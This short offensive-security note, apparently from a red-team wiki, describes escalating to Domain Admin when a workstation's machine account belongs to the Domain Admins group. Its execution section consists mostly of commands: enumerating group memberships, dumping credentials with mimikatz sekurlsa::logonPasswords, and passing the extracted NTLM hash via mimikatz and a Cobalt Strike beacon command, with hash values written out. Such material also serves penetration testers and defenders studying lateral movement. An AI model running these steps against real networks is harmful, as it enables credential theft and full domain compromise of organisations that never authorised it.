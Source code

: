 
Let's assume WS01$ is a member of `Domain Admins` group - congratulations, you are one step away from escalating from local admin to Domain Admin and a full domain compromise.
## Execution
Finding domain computers that are members of interesting groups:

```
Get-ADComputer -Filter * -Properties MemberOf | ? {$_.MemberOf}
```
![[image 16.avif]]
```
net group "domain admins" /domain
```
![[image 23.png]]
Extracting the machine `WS01$` NTLM hash after the admin privileges were gained on the system:

```
sekurlsa::logonPasswords
```
Since WS01$ machine is a member of Domain Admins and we have extracted the machine's hash with mimikatz, we can use mimikatz to pass that hash and effectively elevate our access to Domain Admin:
```
sekurlsa::pth /user:ws01$ /domain:offense.local /ntlm:ab53503b0f35c9883ff89b75527d5861

or

beacon> pth DEV\jking 59fc0f884922b4ce376051134c71e22c
```

